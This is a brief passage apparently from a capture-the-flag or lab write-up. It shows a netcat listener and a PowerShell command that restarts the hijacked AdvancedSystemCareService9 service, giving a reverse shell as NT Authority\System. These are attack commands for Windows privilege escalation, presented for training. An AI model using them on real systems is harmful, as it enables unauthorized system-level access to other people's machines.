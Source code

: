 Setup a netcat listener and start the service:

```shell
nc -lvnp 4443
```

```powershell
powershell -c "Start-Service -Name 'AdvancedSystemCareService9'"
```

and bingo! we have a shell NT Authority\\System.

![](attachments/20230913144245.png)

![](attachments/20230913144315.png)

GGs! 🤝
